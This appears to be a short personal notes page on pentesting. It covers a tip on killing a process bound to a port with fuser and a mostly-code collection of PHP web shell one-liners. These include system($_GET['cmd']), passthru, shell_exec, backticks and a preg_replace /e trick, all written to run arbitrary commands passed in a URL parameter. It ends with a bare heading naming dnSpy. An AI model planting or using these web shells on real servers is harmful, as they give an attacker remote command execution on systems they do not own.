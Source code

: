 
# Kill a process
How to kill a process running on particular port in Kali Linux ?_?
or
How to kill a process if it show's port already in use ?_?

Stack overflow:
fuser 8080/tcp will print you PID of process bound on that port.
And this fuser -k 8080/tcp will kill that process.

https://stackoverflow.com/questions/11583562/how-to-kill-a-process-running-on-particular-port-in-linux


Web Shells
```
we could other php commands as well
trying all these <@456226577798135808> 
'# Execute one command
<?php system("whoami"); ?>

# Take input from the url paramter. shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>

# The same but using passthru
<?php passthru($_GET['cmd']); ?>

# For shell_exec to output the result you need to echo it
<?php echo shell_exec("whoami");?>

# Exec() does not output the result without echo, and only output the last line. So not very useful!
<?php echo exec("whoami");?>

# Instead to this if you can. It will return the output as an array, and then print it all.
<?php exec("ls -la",$array); print_r($array); ?>

# preg_replace(). This is a cool trick
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>

# Using backticks
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>

# Using backticks
<?php echo `whoami`; ?>'
```


# Reverse Engineering

dnSpy
